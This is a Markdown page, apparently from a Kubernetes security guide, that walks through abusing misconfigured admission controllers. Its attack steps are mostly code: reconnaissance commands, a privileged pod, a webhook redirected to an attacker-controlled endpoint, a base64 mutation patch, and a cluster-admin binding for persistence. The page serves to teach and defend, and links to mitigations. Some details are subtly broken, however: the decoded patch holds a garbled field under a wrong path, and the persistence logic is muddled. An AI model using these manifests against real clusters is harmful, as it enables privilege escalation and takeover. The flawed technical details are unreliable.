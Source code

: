 ```yaml
---
sidebar_position: 12
title: "Misconfigured Admission Controllers"
description: "How attackers exploit misconfigured Kubernetes admission controllers and insecure webhooks to bypass security policies."
---
```


# Misconfigured Admission Controllers

**Admission controllers** in Kubernetes enforce security policies before resources are created or modified. If **misconfigured**, attackers can **bypass security controls, escalate privileges, or manipulate cluster configurations**.

---

## Exploitation Steps: Abusing Misconfigured Admission Controllers

An attacker exploits **insecure Kubernetes admission controllers** to weaken security policies and gain unauthorized access.

### Step 1: Identify Disabled or Weak Admission Controllers

The attacker lists all active **admission controllers**:

```bash
kubectl api-versions | grep admission
```

They check the API server arguments for **disabled controllers**:

```bash
ps aux | grep kube-apiserver
```

If critical controllers like **PodSecurity**, **ValidatingAdmissionWebhook**, or **MutatingAdmissionWebhook** are missing, the attacker proceeds.

### Step 2: Exploit Weak Admission Policies

If **PodSecurity admission** is enabled but misconfigured, the attacker **deploys a privileged pod**:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: attacker-pod
spec:
  containers:
    - name: exploit-container
      image: alpine
      securityContext:
        privileged: true
```

Without proper admission control enforcement, the attacker **gains root access** to the Kubernetes node.

### Step 3: Hijack Admission Webhooks

The attacker lists active **Validating and Mutating Webhook Configurations**:

```bash
kubectl get mutatingwebhookconfigurations
kubectl get validatingwebhookconfigurations
```

They inspect webhooks for **insecure configurations**:

```bash
kubectl describe mutatingwebhookconfiguration <webhook-name>
```

If a webhook allows **unauthenticated external access**, the attacker **modifies its behavior**:

```yaml
apiVersion: admissionregistration.k8s.io/v1
kind: MutatingWebhookConfiguration
metadata:
  name: insecure-webhook
webhooks:
  - name: insecure.example.com
    rules:
      - apiGroups: [""]
        resources: ["pods"]
        operations: ["CREATE"]
    clientConfig:
      url: "http://attacker-controlled-endpoint/webhook"
```

The attacker sets up a **rogue webhook server** to modify API requests dynamically.

### Step 4: Inject Malicious Configurations

If the webhook **modifies pod security settings**, the attacker **injects privileged configurations**:

```json
{
  "apiVersion": "admission.k8s.io/v1",
  "kind": "AdmissionReview",
  "response": {
    "allowed": true,
    "patch": "W3sib3AiOiJhZGQiLCJwYXRoIjoiL3NwZWMvdGVtcGxhdGUvc2VjdXJpdHlDb250ZXh0IiwidmFsdWUiOnsiYnJ1bnRhaW5lc2NhcGVzIjp7ImFsbG93UHJpdmlsZWdlZEVzY2FsYXRpb24iOnRydWV9fX1d"
  }
}
```

This ensures that every new pod **automatically runs with elevated privileges**.

### Step 5: Gain Persistent Cluster Access

By modifying webhook rules, the attacker ensures that **any newly deployed pod automatically grants itself cluster-admin privileges**:

```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: attacker-binding
subjects:
  - kind: User
    name: attacker
    apiGroup: rbac.authorization.k8s.io
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
```

Even if the attacker's original access is revoked, **malicious webhook behavior remains active**, ensuring long-term persistence.

### Result

The attacker successfully **bypassed admission controls, manipulated security policies, and escalated privileges** using insecure admission webhooks.

---

## Mitigation Steps

To protect against **misconfigured admission controllers and insecure webhooks**, follow the security best practices outlined in:

➡ **[Securing Kubernetes Admission Controllers and Webhooks](/docs/best_practices/cluster_setup_and_hardening/api_server_security/misconfigured_admission_controllers_mitigation.md)**

This guide covers techniques such as **enforcing admission control best practices, securing webhook authentication, enabling TLS encryption, and auditing webhook activity** to prevent unauthorized modifications to cluster configurations.
